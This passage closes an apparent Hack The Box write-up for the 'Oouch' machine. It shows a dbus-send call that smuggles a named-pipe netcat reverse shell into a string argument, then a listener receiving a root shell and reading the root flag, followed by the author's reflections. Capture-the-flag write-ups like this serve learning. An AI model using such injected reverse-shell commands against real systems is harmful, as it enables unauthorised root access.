 ```bash
www-data@aeb4525789d8:/code$ dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block  htb.oouch.Block.Block "string:;rm /tmp/.0; mkfifo /tmp/.0; cat /tmp/.0 | /bin/bash -i 2>&1 | nc 10.10.14.34 4444 >/tmp/.0;"

< /bin/bash -i 2>&1 | nc 10.10.14.34 4444 >/tmp/.0;"
method return time=1590084712.982363 sender=:1.3 -> destination=:1.517 serial=3 reply_serial=2
   string "Carried out :D"
```

Now we got root on `oouch.htb` box.

```bash
$ rlwrap nc -nvlp 4444

Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.177.
Ncat: Connection from 10.10.10.177:50784.
bash: cannot set terminal process group (2502): Inappropriate ioctl for device
bash: no job control in this shell
root@oouch:/root# id
id
uid=0(root) gid=0(root) groups=0(root)

root@oouch:/root# hostname
hostname
oouch

root@oouch:/root# cat /root/root.txt
cat /root/root.txt
d98ef..........
```

This box was specially fun and frustrating, made me learn Oauth and investigate about dbus and uwsgi. Also good practice for csrf and ssrf techniques. Hope you enjoyed the whole process.

